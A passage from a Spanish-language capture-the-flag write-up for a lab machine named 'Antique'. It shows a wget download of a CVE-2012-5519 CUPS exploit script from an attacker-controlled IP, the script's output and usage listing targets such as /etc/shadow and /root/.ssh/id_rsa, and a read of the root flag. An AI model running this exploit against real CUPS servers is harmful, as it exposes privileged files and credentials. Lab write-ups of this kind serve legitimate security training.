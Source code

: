 ```
lp@antique:/tmp/privesc$ wget http://10.10.16.16/cups-root-file-read.sh
```

En esta máquina `no` nos vamos a `convertir` en `root`, lo único que podemos hacer es `capturar` la `flag`

```
lp@antique:/tmp/privesc$ ./cups-root-file-read.sh 
                                            _
  ___ _   _ _ __  ___       _ __ ___   ___ | |_
 / __| | | | '_ \/ __|_____| '__/ _ \ / _ \| __|____
| (__| |_| | |_) \__ \_____| | | (_) | (_) | ||_____|
 \___|\__,_| .__/|___/     |_|  \___/ \___/ \__|
 / _(_) | _|_|      _ __ ___  __ _  __| |  ___| |__
| |_| | |/ _ \_____| '__/ _ \/ _` |/ _` | / __| '_ \ 
|  _| | |  __/_____| | |  __/ (_| | (_| |_\__ \ | | |
|_| |_|_|\___|     |_|  \___|\__,_|\__,_(_)___/_| |_|
a bash implementation of CVE-2012-5519 for linux.

[i] performing checks...
[i] checking for cupsctl command...
[+] cupsctl binary found in path.
[i] checking cups version...
[+] using cups 1.6.1. version may be vulnerable.
[i] checking user lp in lpadmin group...
[+] user part of lpadmin group.
[i] checking for curl command...
[+] curl binary found in path.
[+] all checks passed.

[!] warning!: this script will set the group ownership of
[!] viewed files to user 'lp'.
[!] files will be created as root and with group ownership of
[!] user 'lp' if a nonexistant file is submitted.
[!] changes will be made to /etc/cups/cups.conf file as part of the
[!] exploit. it may be wise to backup this file or copy its contents
[!] before running the script any further if this is a production
[!] environment and/or seek permissions beforehand.
[!] the nature of this exploit is messy even if you know what you're looking for.

[i] usage:
	input must be an absolute path to an existing file.
	eg.
	1. /root/.ssh/id_rsa
	2. /root/.bash_history
	3. /etc/shadow
	4. /etc/sudoers ... etc.
[i] ./cups-root-file-read.sh commands:
	type 'info' for exploit details.
	type 'help' for this dialog text.
	type 'quit' to exit the script.
[i] for more information on the limitations
[i] of the script and exploit, please visit:
[i] https://github.com/0zvxr/CVE-2012-5519/blob/main/README.md
[>] /root/root.txt
[+] contents of /root/root.txt:
f83517be6475a477f1d2dbe7142aee30
```
